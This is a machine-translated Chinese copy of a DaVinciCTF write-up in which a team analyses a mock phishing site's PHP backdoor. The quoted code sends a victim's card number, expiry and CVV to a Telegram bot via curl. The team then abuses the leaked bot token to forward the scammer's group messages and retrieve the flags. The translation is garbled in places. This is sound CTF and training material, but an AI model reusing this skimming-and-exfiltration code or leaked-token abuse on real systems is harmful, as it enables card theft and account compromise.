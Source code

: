 # 邮局—达文西特—报道

> 原文：<https://infosecwriteups.com/post-office-davincictf-writeup-ab1324a65377?source=collection_archive---------3----------------------->

## 与海盗的对话

这个周末，我有幸扮演达芬奇 CTF 和我的团队浮士德获得第一名。这是一场非常有趣和高质量的 CTF，有一些很好的和创造性的挑战。

其中一个挑战是外国邮局，还有一个后续的全船挑战。在下文中，我将解释我们应对这一挑战的方法以及我们最终是如何解决这一问题的。

# 邮局

> 我今天收到一个包裹。几分钟后，我收到了以下短信，要求我支付运费:
> 
> `Chronopost: Veuillez confirmer le reglement des frais (2,99 EUR) et votre adresse de livraison du colis en cliquant sur le lien suivant: [https://bit.ly/2Vw1THR](https://bit.ly/2Vw1THR)`
> 
> 我发现了一个奇怪的 PHP 后门，而该网站仍然活跃，可以访问源代码。你能想办法看看谁被骗了吗？

除了这个介绍，我们还收到了一个 backup.zip 文件，其中包含两个服务器日志文件和服务器的 public_html 目录。查看它，我们看到 59 个文件，并决定从日志文件开始，一个有 2509 行，另一个有 14147 行。

![](img/e52b95827754127559791fcd3f546c3d.png)

backup.zip 包含两个服务器日志文件和服务器的 public_html 目录

通过滚动抛出文件和搜索一些提示，我们的第一个猜测是，我们会在 vuln.php 找到更多的信息，一个文件被多次请求，显然听起来可疑。不幸的是，它没有包含在备份文件中。

![](img/ce96dda82e8e154a081112bc9a6bc2ec.png)

日志文件包含大量可疑的呼叫，例如 vuln.php

不知何故——遗憾的是我不能告诉你具体是怎么回事——一位同事发现了文件 *public_html\知名\ pdf \ data \ chrono post 4 \ ngx \ wait . PHP .*由于文件与 Telegram API 一起工作，并且日志在某处提到 Telegram，他可能只是搜索关键字 Telegram。

该文件包含向服务器发送消息的 PHP 代码，以及电报机器人令牌、聊天 id 和电报 API 命令 sendMessage。此外，该消息包含发出请求的受害者的私人信息。

```
[...]
$message="";
$message.=$ip."\n";
$message.=$Nomcomplet."\n";
$message.=$Adresse."\n";
$message.=$ZIP."\n";
$message.=$Number."\n";
$message.=$MM."/".$AA."\n";
$message.=$CVV."\n";// send message using Telegram API
$website="http://challs.dvc.tf:1101/bot1337991337:AESCKk9bSy2kdtu-Ig7wYkzWkjltctu-UkN";
//Receiver Chat Id
$params=[
    'chat_id'=>'-1001324431100',
    'text'=>$message,
];
$ch = curl_init($website . '/sendMessage');
[...]
```

然后，我们使用相同的命令尝试我们在官方 [Telegram API 文档](https://core.telegram.org/bots/api)中找到的其他 Telegram API 方法。例如，getMe 调用告诉我们这个 bot 被称为 sc4mm3r_bot。

我立即用我的私人账户给机器人发消息，却看到我的消息出现在 *getUpdate* 调用中。结果是:其他人现在都可以看到我的电报处理… s**t。幸运的是，你可以用最新的 update_id 调用 *getUpdate* ，你的消息将不会再被列出。然而，在写这篇文章时，我检查了这个方法，发现出现了许多其他用户的名字。如果你在读这篇文章，我现在有你的把柄了:)

无论如何，机器人没有回应，所以我们很快尝试了每一种可能的方法自动呼叫。不幸的是，只有少数方法被服务器支持，所有其他命令都被拒绝。我们能够使用 *forwardMessage* 、 *copyMessage* 、 *getUserProfilePhotos* 、 *getFile* 、 *getChat* 、*getchatmanagements*、 *getChatMemberCount* 和 *getChatMember* 。

正如挑战描述告诉我们的那样，目标是找到谁爱上了骗子，并得到他们的名字。PHP 代码表明受害者的私人信息包含在群聊中。但是群聊只有两个成员，sc4mm3r_bot 和一个叫黑胡子海盗的用户，很可能就是骗子本身。我们看不到将自己加入聊天或从群聊中轻松请求旧消息的可能性。

经过一番头脑风暴后，我们有了将聊天中的消息转发到我们在 *getUpdate* 中看到的私人聊天 id 的想法。我们不知道 message_id 可能是什么，但只有一种方法可以知道。

我发送了转发命令，当我的手机震动时，我很惊讶——我收到了一条新消息。转发 message_id 3 成功！快速 for 循环后，我的手机并没有停止振动，我收到了一个标志: **dvCTF{C0nt4ct_tH3_p0L1ce！！！}**

下面你可以看到我解决挑战的 python 历史摘录和电报聊天的截图。

![](img/224ad18769c751369af47d36de6ef95a.png)

机器人转发包括该标志的群聊消息

# 请上船

> 查找邮局骗局背后的骗子的信息

在我们成功提交了邮局挑战的旗帜后，一个新的挑战出现了。这项挑战被称为全船行动，属于奥辛特类。

我的第一个尝试是给骗子发信息，看看我是否能找到更多关于他的信息。也许一些社会工程会有所帮助。

当海盗立即回应时，我感到很惊讶，因为他还没有准备好任何借口。然后我想到了一个伟大的问题:他最喜欢的旗帜是什么？遗憾的是，他不想让我说出来。

![](img/cb1e6c7da8aa56443877b768337719e3.png)

与海盗的对话

然而，在 GitHub 上搜索他的用户名 jsbdihwirbjebsjh(参见上面的 python 历史)会找到一个有三个资源库的 GitHub 用户:[https://github.com/jsbdihwirbjebsjh](https://github.com/jsbdihwirbjebsjh)

资源库 *utils* 包含一个名为 *locker.py* 的文件，资源库 *treasure* 包含两个加密文件，密钥可以在 *config/中找到。viminfo* 。有了这些信息，很容易解密文件并接收标志: **dvCTF{4a4r_u_g0t_m3}**

![](img/ad52d08650dc3f05ba753ee7e40e2168.png)

黑胡子海盗的自拍

# 摘要

正如你所看到的，这是一个伟大的和创造性的挑战，充满了现实主义。可悲的是，API 密钥或凭证经常可以在 GitHub 库中找到，并导致灾难性的结果。事实上，几个月前 a 自己也试过:

[](/how-i-got-access-to-other-peoples-medium-accounts-122d49b7f721) [## 我是如何进入其他人的媒体账户的

### GitHub 搜索、API 键和自动化的魔力

infosecwriteups.com](/how-i-got-access-to-other-peoples-medium-accounts-122d49b7f721) 

此外，我对所有网络挑战的评论可以在这里找到:

[](https://fh4ntke.medium.com/davincictf-web-challenges-writeup-517e77d6fa39) [## 达芬奇密码—网络挑战—详细报道

### 这个周末，我有幸扮演达芬奇 CTF 和我的团队浮士德获得第一名。这很有趣，而且…

fh4ntke.medium.com](https://fh4ntke.medium.com/davincictf-web-challenges-writeup-517e77d6fa39) 

最后，我只能说感谢达芬奇密码背后的团队，感谢我的团队同事，玩得很开心。